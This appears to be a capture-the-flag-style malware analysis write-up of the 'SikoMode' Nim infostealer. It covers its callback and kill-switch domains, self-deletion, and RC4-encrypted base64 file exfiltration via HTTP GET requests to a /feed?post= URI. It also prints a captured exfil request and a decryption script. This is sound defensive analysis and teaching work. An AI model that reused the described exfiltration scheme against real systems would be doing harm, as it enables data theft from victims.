








# Malware Analysis : SikoMode


| Difficulty | Start Date & Time  | Finish Date & Time |
| ---------- | ------------------ | ------------------ |
| Medium     | 15/11/2023 - 18h00 | 18/11/2023 - 21h00 | 

## Instructions

```
Analyst,

This specimen came from a poor decision and a link that should not have been clicked on. No surprises there. We need to figure out the extent of what this thing can do. It looks a little advanced.

Perform a full analysis and send us the report when done. We need to go in depth on this one to determine what it is doing, so break out your decompiler and debugger and get to work!

IR Team
```

---

## Tools

### Basic Static Analysis
- File hashes
- VirusTotal
- FLOSS
- PEStudio
- PEView
- Wireshark
- Inetsim
- Netcat
- TCPView
- Procmon

### Advanced Analysis
- Cutter
- Debugger (x64dbg)

---
## Basic Facts

I started by getting the SHA256 of the file and searched for it on VirusTotal.

```
SHA256: 3ACA2A08CF296F1845D6171958EF0FFD1C8BDFC3E48BDD34A605CB1F7468213E
```


As I thought, the file was flagged as malicious. But for the purpose of this challenge, I didn't take it in consideration in order to find everything by myself, as if the sample was a fresh new one.

I also "`FLOSSed`" the binary to find some interesting strings. I searched for common pattern with `grep` like `C:/`, `http://`, `.exe`, `.txt`, `.com` or even `.local`. This allowed me to find some interesting strings :




Now that the basic tasks are done, let's dissect this binary to see what's inside and how it works ! 👽

---
## Questions

#### 1) What language is the binary written in?

To know what language is the binary written in, I simply loaded it into `Cutter`. Then on the Dashboard tab, there is plenty of informations including the one I'm looking for. As you can see on the screenshot below, the malware has been written in `Nim`.




As I wasn't very sure about what `Nim` looked like, I searched some more informations on the Internet. Apparently, Nim was created to be a language as fast as C, as expressive as Python and as extensible as Lisp. Usually, malware authors use C or C++, Visual Basic and even Rust. Why bother using this language ? It's because using a new programming language allow to bypass / avoid anti-malware protections. Indeed, at the beginning of its usage it wasn't known from the AVs. Thus, there wasn't any protections on hosts and it could run without being flagged. Fortunately, this is not the case anymore, to the extent that even legitimate Nim binary are being flagged, making it hard for developpers using this language as I read here: https://forum.nim-lang.org/t/9850. 

Also, when searching for the keyword `Nim` on Github, the third most popular repository is the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim) one. It shows that this language is pretty much used in offensive scenarios. 


It is also possible to know the language by analyzing the strings in the binary. Indeed, when using `strings` or `FLOSS`, I saw that a lot of them started by `nim` like `nimMain`, `nimGetProcAddr` and so on. 

---

#### 2) What is the architecture of this binary?

To know what is the architecture of this binary, I opened it in `PEStudio`. As you can see on the screenshot below, it's `64-bits`. `Cutter` was also showing it in the `Dashboard` tab.


---

#### 3) Under what conditions can you get the binary to delete itself?

I noticed there was three different conditions under which the binary delete itself.

1. Firstly, it will delete itself if the binary doesn't have access to the internet and can't contact the callback domain. WHat it does is send a TCP request on port 80 to the gateway. Then, there's a DNS request to the domain `update.ec12-4-109-278-3-ubuntu20-04.local`. 


If it fails, i.e there's no answers, it delete itself. I can confirm that supposition by inspecting the binary in `Cutter`. After displaying the graph of the `sym.NimMainModule` method, I noticed the following condition :


On that screenshot, you can see the function `checkKillSwitchURL` being called. This is the one that will get the binary to send a request to the callback domain. Then there is the instruction `test al, al` followed by `jne` which is a conditional jump depending of the value of the `ZF` register. If it is equal to `0`, meaning it returns `true`, it will continue its execution. Otherwise, it will delete itself by calling the `houdini` function (*we will describe it later on, just assume this function is making the binary delete itself*) 

2. If the internet connection gets interrupted, the binary will also delete itself. I noticed that by stopping `INetSim` during its execution. But there's also a confirmation in the disassembled code in `Cutter`.


This is the continuation of the previous screenshot. The `checkKillSwitchURL` returned `true` and the execution continues. Here you can see there's again a `test` instruction followed by a `jne` instruction. This time, if the `ZF` regsiter is set to `0`, it will call `houdini` and delete itself. Otherwise, it will continue its execution and call the `unpackResources` and `stealStuff` functions which is the normal execution of the binary. 

3. Thirdly, the binary will delete itself after its normal execution. Aswell as the two previous cases, I can verify that on `Cutter` :


You can see that in both cases, the binary will call the `houdini` function, which means it's bound to get rid of itself anyway. 

---

#### 4) Does the binary persist? If so, how?

During my analysis, I didn't find any persistance mechanism. On the contrary, it seems the binary is deleting itself after it did everything it needed to do (*noticed by dynamic analysis in the previous question*).

---

#### 5) What is the first callback domain?

To answer this question, I launched `Wireshark` and `iNetSim`. When I detonated the malware, the first thing I noticed was this DNS request followed by an HTTP request to the domain `update.ec12-4-109-278-3-ubuntu20-04.local`. 


So, the first callback domain is `update.ec12-4-109-278-3-ubuntu20-04.local`.

---

#### 6) Under what conditions can you get the binary to exfiltrate data?

In **question 3**, I demonstrated under which conditions the binary will execute normally. To do so, it first need to be able to contact the callback domain `update.ec12-4-109-278-3-ubuntu20-04.local`. If successful, it will unpack resources (the key to encrypt the exfiltrated data) and "steal stuff". I'm not going to dissect 100% of the stealStuff method, but I'm still going to give some precision.

It will first **create an handle** to the file `cosmo.jpeg`, **read it** and **encode it** in `base64`.


Then, the content gets encrypted using the RC4 algorithm (it will be detailled in question 11).


Finally, the binary call the necessary functions to create HTTP requests in order to exfiltrate the data.




---

#### 7) What is the exfiltration domain?

To answer this question, I launched `Wireshark` and `iNetSim`. I detonated the malware and after a short amount of time, I noticed a DNS request followed by an HTTP request to the domain `cdn.altimiter.local` with the user agent `Nim httpclient/1.6.2`. 




So, the exfiltration  domain is `cdn.altimiter.local`.


---

#### 8) How does exfiltration take place?

To answer this question, I took the same `Wireshark` capture as previously and analysed it. I saw that several HTTP `GET` request were taking place. The only difference between them was the value of the `post` parameter, chaging every new request but its length was always the same.  




By looking at those results, I suppose the data exfiltration is taking place through those `GET` requests. The content of the file is encrypted and splitted in strings of 125 characters. Then, those strings are passed as the value of the `post` parameter in HTTP `GET` requests. Below is an example of the 125 characters strings :

```
String 1: 

A69C1CF68535758244B2337BAFFE38290DEBB01A07FF20919D758DDD480786BE49FDA8851998C6BC34020A6C57E504C48A9B8BD68959C6B7174302E29D84

String 2 :

B69C0CF68536758144B03372DDDD38291DEBB31925F523A386678EEC5414AF8966D1BCA316ADC6BC30020A6460D404C49A9B8FD6895AC5BF174376CCBBBC
```

Thanks to `ProcMon`, I've been able to understand some of the encryption mechanism phases better. First, the binary seems to use some cryptographic functions from the `bcryptprimitives.dll`



Then, the binary create a file in `C:/Users/Public/` called `passwrd.txt`.


So here's my supposition on the different phases of the encryption :


**TL;DR**
1. it create the file `C:\Users\Public\passwrd.txt` and store the key `SikoMode` inside,
2. it create a handle to the file it want to exfiltrate,
3. it encode (base64) and encrypt (RC4) its content,
4. it is exfiltrated through HTTP `GET` requests.


---

#### 9) What URI is used to exfiltrate data?

To answer this question, I can use my previously found results :


On this `Wireshark` capture, we can clearly see the URI used to exfiltrate the data : `/feed` with the paramter `post`. So, the final exfiltration URI is built like this : 

```
/feed?post=ENCRYPTED_DATA_TO_BE_EXFILTRATED
```


---

#### 10) What type of data is exfiltrated (the file is cosmo.jpeg, but how exactly is the file's data transmitted?)

I've already covered this subject in the question 3, 6 and 8. ^^


---

#### 11) What kind of encryption algorithm is in use?

As I showed previously, the algorithm used to encrypt the data is RC4. You can find more information here: https://github.com/OHermesJunior/nimRC4


There's an occurence in the `stealStuff` method, where the `toRC4()` function is called. It takes two arguments: the key and the plaintext. In this case, the key is stored in `rcx` and the plaintext is in `rdx`. They are then passed to the function as arguments.




---

#### 12) What key is used to encrypt the data?

We saw in **question 8** that the binary unpacks the file `passwrd.txt` in `C:/Users/Public/`. Opening the file will give us the key used to encrypt the data


As you can see on this screenshot, the key is `SikoMode`. But there's another way to recover the key by using a debugger. The first thing I did was to get the address of the `toRC4()` function and its arguments (*framed in red*). 


Then, I opened the binary in `x64dbg` and placed a breakpoint a few lines before the call of the function (here at the address `0x00417547`). Stepping into twice, right-clicking the `mov rcx, rbx` instruction and following it in dump shows us the string in the dump.




As you can see, the key `SikoMode` can also be retrieved this way.


---

#### 13) What is the significance of `houdini`?

`houdini` is a method aimed to make the binary delete itself (*determined through the dynamic analysis*). In the previous questions, I showed it was being called multiple times in the binary.


---

#### BONUS - Retrieve the file content 

I wanted to see if I could retrieve the content of the file being exfiltrated as I knew everything to do so. That said, the original `cosmo.jpeg` file was too heavy and took to long to exfiltrate entierely. Thus, I replaced the original file by mine. I just wrote `This is a test` inside a file and called it `cosmo.jpeg`.


It worked and the malware started exfiltrating its content. It took only one request to do so, which was more convenient for me. (:

```
GET /feed?post=A19A35C7A70E76B366883052A0F22B043F99A066
```

Then, I wrote a *very simple* Nim script to decrypt and decode the content.

```nim
import RC4
import std/base64

var decryptedString: string = fromRC4("SikoMode", "A19A35C7A70E76B366883052A0F22B043F99A066")
echo "Decrypted: ", decryptedString

var decodedString: string = decode(decryptedString)
echo "Decoded: ", decodedString
```

Then, I just had to run it in order to retrieve the content.


And it worked ! 

If you're patient enough, you can try with the original file. Just start a Wireshark capture and wait for the file to be completely exfiltrated (the binary will delete itself when it's done). Then, extract the content of all the HTTP GET requests (using `tshark` for example) and use `sed` to remove the URI part from the content. Finally, you'll just have to replace the `plaintext` with yours in the Nim script above to retrieve Matt's cat. :)
